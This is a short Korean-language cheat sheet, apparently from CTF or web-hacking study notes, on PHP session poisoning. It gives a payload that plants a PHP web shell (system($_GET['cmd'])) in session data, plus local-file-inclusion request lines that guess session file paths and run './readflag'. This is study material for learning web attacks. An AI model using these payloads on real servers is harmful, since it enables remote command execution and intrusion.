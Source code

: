 Session Poisoning
세션 데이터에 악의적인 내용을 삽입하거나 변경하여 어플리케이션의 동작을 변조

# 페이로드
먼저, Session Poisoning 후
`?p=broken|data;<?php system($_GET['cmd']); ?>`

LFI와 연계
이때, 세션 위치는 아래와 같은 위치에 있을 확률이 높음
`?p=/var/lib/php/sessions/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/tmp/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/var/tmp/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/var/sessions/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/var/php/sessions/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`

